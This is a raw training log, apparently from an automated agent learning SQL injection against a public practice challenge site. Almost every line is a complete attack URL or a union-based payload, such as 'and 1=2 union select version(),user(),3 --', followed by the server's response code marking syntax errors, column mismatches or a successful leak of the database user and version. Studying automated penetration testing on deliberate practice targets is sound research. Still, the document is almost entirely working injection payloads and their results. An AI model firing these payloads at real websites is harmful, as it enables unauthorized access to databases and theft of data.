Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --

  0%|          | 1954/1000000 [11:46:46<8761:13:13, 31.60s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1955/1000000 [11:46:46<6201:53:25, 22.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1956/1000000 [11:46:47<4424:05:57, 15.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1957/1000000 [11:46:48<3180:51:53, 11.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1958/1000000 [11:46:49<2317:12:15,  8.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1959/1000000 [11:46:50<1691:24:42,  6.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1960/1000000 [11:46:51<1282:12:51,  4.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3

  0%|          | 1961/1000000 [11:48:28<8934:34:14, 32.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Sy

  0%|          | 1962/1000000 [11:50:05<14307:44:15, 51.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1963/1000000 [11:50:06<10097:40:11, 36.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server

  0%|          | 1964/1000000 [11:51:10<12424:21:54, 44.82s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1965/1000000 [11:51:12<8856:54:36, 31.95s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1966/1000000 [11:51:13<6260:54:06, 22.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server r

  0%|          | 1967/1000000 [11:54:47<22145:00:05, 79.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1968/1000000 [11:54:47<15571:11:18, 56.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1969/1000000 [11:54:48<10960:47:23, 39.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1970/1000000 [11:54:50<7826:42:21, 28.23s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 1971/1000000 [11:55:16<7664:02:29, 27.65s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Ser

  0%|          | 1972/1000000 [11:57:15<15259:05:35, 55.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1973/1000000 [11:57:16<10758:58:07, 38.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union sel

  0%|          | 1974/1000000 [11:57:56<10857:43:42, 39.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1975/1000000 [11:57:57<7665:27:54, 27.65s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1976/1000000 [11:57:59<5510:05:12, 19.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1977/1000000 [11:58:01<4082:53:44, 14.73s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1978/1000000 [11:58:02<2942:37:51, 10.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1979/1000000 [11:58:04<2225:52:07,  8.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 1980/1000000 [11:58:57<5958:39:02, 21.49s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1981/1000000 [11:58:58<4248:14:56, 15.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1982/1000000 [11:58:59<3057:13:30, 11.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1983/1000000 [11:59:01<2266:45:56,  8.18s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1984/1000000 [11:59:05<1954:45:13,  7.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1985/1000000 [11:59:06<1452:55:57,  5.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1986/1000000 [11:59:07<1101:18:46,  3.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Serv

  0%|          | 1987/1000000 [11:59:54<4643:55:08, 16.75s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1988/1000000 [11:59:55<3348:25:45, 12.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1989/1000000 [11:59:56<2428:54:11,  8.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1990/1000000 [11:59:57<1767:46:13,  6.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1991/1000000 [11:59:58<1318:12:14,  4.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1992/1000000 [11:59:59<999:08:13,  3.60s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1993/1000000 [12:00:00<771:11:15,  2.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1994/1000000 [12:00:01<619:14:29,  2.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1995/1000000 [12:00:01<510:55:27,  1.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.

  0%|          | 1996/1000000 [12:00:10<1089:11:12,  3.93s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1997/1000000 [12:00:11<843:28:17,  3.04s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1998/1000000 [12:00:12<655:58:40,  2.37s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(

  0%|          | 1999/1000000 [12:01:10<5304:55:56, 19.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server

  0%|          | 2000/1000000 [12:01:31<5424:34:46, 19.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Ser

  0%|          | 2001/1000000 [12:03:07<11805:10:00, 42.58s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2002/1000000 [12:03:08<8343:01:04, 30.10s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2003/1000000 [12:03:09<5916:15:28, 21.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2004/1000000 [12:03:10<4211:24:11, 15.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2005/1000000 [12:03:11<3025:47:37, 10.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/S

  0%|          | 2006/1000000 [12:03:37<4312:24:43, 15.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2007/1000000 [12:03:38<3079:10:55, 11.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  0%|          | 2008/1000000 [12:03:45<2781:39:45, 10.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2009/1000000 [12:03:47<2112:54:37,  7.62s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3

  0%|          | 2010/1000000 [12:03:59<2453:02:18,  8.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2011/1000000 [12:04:01<1844:47:29,  6.65s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2012/1000000 [12:04:02<1374:56:39,  4.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2013/1000000 [12:04:03<1043:38:17,  3.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2014/1000000 [12:04:03<797:09:56,  2.88s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2015/1000000 [12:04:04<635:00:11,  2.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2016/1000000 [12:04:05<507:52:41,  1.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3

  0%|          | 2017/1000000 [12:04:20<1629:24:24,  5.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
